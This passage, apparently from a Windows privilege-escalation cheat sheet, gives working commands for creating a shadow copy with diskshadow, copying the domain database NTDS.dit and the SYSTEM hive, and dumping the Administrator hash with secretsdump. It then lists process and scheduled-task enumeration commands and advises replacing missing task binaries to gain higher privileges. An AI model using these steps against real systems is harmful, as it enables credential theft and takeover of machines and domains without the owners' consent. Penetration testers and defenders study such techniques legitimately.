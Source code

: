 Once done, You could use `diskshadow` to backup the C: disk :

```powershell
#script.txt
set metadata C:\temp\metadata.cab
set context clientaccessible;
set context persistent;
begin backup;
add volume c: alias mydrive;
create;
expose %mydrive% z:;
```

```powershell
diskshadow /s script.txt #to backup the entire C: volume
Copy-FileSeBackupPrivilege z:\windows\NTDS\ntds.dit c:\temp\ntds.dit # get ntdis from the backup
reg save HKLM\SYSTEM c:\system #get system from the hive
```

Now we can extract these ntds.dit and system with secretdump to get Administrator hash

```bash
secretdump.py -ntds ntds.dit -system system LOCAL
```



## Processes

What processes are running?

```powershell
tasklist /v
net start
sc query
Get-Service
Get-Process
Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
```

Which processes are running as "system"

```powershell
tasklist /v /fi "username eq system"
```

## Scheduled Tasks
List Scheduled Tasks
```powershell
schtasks /query
or (more details)
schtasks /query /v /fo list

schtasks /query /fo LIST 2>nul | findstr TaskName
schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```
### Missing Binary
Use autoruns64.exe on 'Scheduled Tasks' tab to find if some Scheduled Binary are missing.
In that case check write permissions and try to replace that binary.
